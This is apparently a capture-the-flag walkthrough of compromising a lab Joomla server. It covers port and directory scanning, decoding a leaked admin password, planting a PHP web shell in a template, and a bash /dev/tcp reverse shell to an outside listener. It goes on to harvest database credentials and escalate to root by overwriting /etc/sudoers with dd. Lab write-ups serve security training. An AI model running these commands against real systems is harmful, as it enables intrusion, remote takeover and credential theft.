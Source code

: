 ![image](https://github.com/user-attachments/assets/9f1276a1-350a-4320-afbf-8d227ba35aa1)
```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
nmap -sCV -p80,3000,5000 172.17.0.2 -oN targeted
```
![Pasted image 20250130221948](https://github.com/user-attachments/assets/ea8384da-2b52-4f1a-a0cc-8113476035fb)
![Pasted image 20250130222205](https://github.com/user-attachments/assets/875e5c62-1ded-4593-9faf-ebfbe4aa86e8)

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html,js
```
![Pasted image 20250130224322](https://github.com/user-attachments/assets/8c9bb372-5efa-4e31-bd17-166fee52e4bb)
![Pasted image 20250130224341](https://github.com/user-attachments/assets/f2b97e8a-0de0-4f47-b7d2-048eddf32b41)
admin:c2FubHVpczEyMzQ1

![Pasted image 20250130235727](https://github.com/user-attachments/assets/2fa564c1-840c-4d97-b627-5bc186e4763f)
![Pasted image 20250130235734](https://github.com/user-attachments/assets/101b6bfc-427e-480a-87d5-20fdb132c56f)
![Pasted image 20250130235747](https://github.com/user-attachments/assets/5feed2e4-6e3a-42cc-9875-dce72efc7131)
admin:c2FubHVpczEyMzQ1

## **we have a user and a confirmed password only it is encrypted so we will decode it.**

```bash
echo "c2FubHVpczEyMzQ1" |base64 -d
```
![Pasted image 20250131000043](https://github.com/user-attachments/assets/3f9293e6-2024-4d86-ab2b-d9a4c6002a70)
sanluis12345

## **we enter http://172.17.0.2/administrator/**

![Pasted image 20250131104737](https://github.com/user-attachments/assets/5d5d6a88-5e1e-4d4a-a64f-aa099460eb59)
![Pasted image 20250131104754](https://github.com/user-attachments/assets/8525480d-0f26-4d87-89f0-0552fbb7d6b1)

## **we already have access to the administrator jomla profile**

## **now that we have access we need to upload a malicious code to get remote access so let's modify the template**

![Pasted image 20250131105123](https://github.com/user-attachments/assets/bd1cb5e1-9422-4185-8cf6-ae52e9d41522)
![Pasted image 20250131105215](https://github.com/user-attachments/assets/2ff60354-e341-4ded-a666-dd0327a29ab1)
![Pasted image 20250131105235](https://github.com/user-attachments/assets/f5476ea2-bc4a-4047-acbd-f4344e26ce61)
![Pasted image 20250131105257](https://github.com/user-attachments/assets/bd94e176-735b-4cca-aaed-1913a567853f)

## **we will add a message to see if it is shown on the web so that when we enter a directory that does not exist it will show us what we entered.**

![Pasted image 20250131105639](https://github.com/user-attachments/assets/ccb84b34-632e-4774-9546-a2d60a6cc7df)

## **we will add this code on the web**
```bash
system($_GET["cmd"]);
```
![Pasted image 20250131111035](https://github.com/user-attachments/assets/2d9ba69f-9a03-4316-9906-821b251d583a)

## **we add this to our search engine**
```bash
?cmd=comando
```
![Pasted image 20250131111608](https://github.com/user-attachments/assets/03ab62cf-d52c-4ca4-8b79-0c46b2f3aad5)

## **we will now send a revershell**

```bash
bash -c "bash -i >%26 /dev/tcp/192.168.1.228/444 0>%261
```
![Pasted image 20250131111901](https://github.com/user-attachments/assets/ed6d875f-4fd8-47a7-8b3a-f79af471317e)

## **we listen to** 
```bash
nc -nlvp 444
```
![Pasted image 20250131112204](https://github.com/user-attachments/assets/2911daa4-d2c8-4f02-a72a-2ec0c9535464)

## **we already have access we will make a treatment of the tty**
```bash
script /dev/null -c bash
"CTRL+Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## **by investigating we found the configuration.php file**
```bash
nano configuration.php
```
![Pasted image 20250131112658](https://github.com/user-attachments/assets/d5d2d150-f01c-4dd7-bdd0-650494820867)

user:       joomla_user
passwd:  luisillo123456

## **we will log in with the credentials found**
```bash
mysql -h localhost -u joomla_user -p
```
![Pasted image 20250131113536](https://github.com/user-attachments/assets/376824e0-d88b-4b47-b77b-08d41df30b71)

```MYSQL
show databases;
use DATABASENAME;
show tables;
select * from users;*
```
![Pasted image 20250131114142](https://github.com/user-attachments/assets/c9634dfa-5690-49d7-a9c8-8e6f33b8bc37)
![Pasted image 20250131114205](https://github.com/user-attachments/assets/716bd12a-9686-40ed-a56e-d0fda7b58974)
![Pasted image 20250131114234](https://github.com/user-attachments/assets/50679c3b-f171-4164-8bb2-8453664e9d05)

## **we don't have more information than the user admin**

## **we continue to investigate inside the home folder there are two users but we do not have access**

![Pasted image 20250131114551](https://github.com/user-attachments/assets/e32b47f5-f2db-4ce2-a07d-e936d4da2200)

## **we are looking for possible files for the user luisillo**
```bash
find / -user luisillo 2>/dev/null
```
![Pasted image 20250131114956](https://github.com/user-attachments/assets/4511c51b-3b53-4cdc-a189-c8ce83c79816)

user:         luisillo
passwd:    luisillosuperpassword

```bash
su luisillo
```
![Pasted image 20250131115121](https://github.com/user-attachments/assets/43a3547b-4d99-40fa-8105-08315f4f01c2)

```bash
sudo -l
```
![Pasted image 20250131115147](https://github.com/user-attachments/assets/86ee1c6f-094a-4717-8f59-1535f86d35f7)
![Pasted image 20250131115327](https://github.com/user-attachments/assets/d8653740-eae7-41bc-aa20-d964b86e0e21)

```bash
echo "luisillo ALL=(ALL:ALL) ALL" | sudo /bin/dd of=/etc/sudoers
```
![Pasted image 20250131115656](https://github.com/user-attachments/assets/dd6bcc69-a94a-4ea7-b57a-7138764a805e)
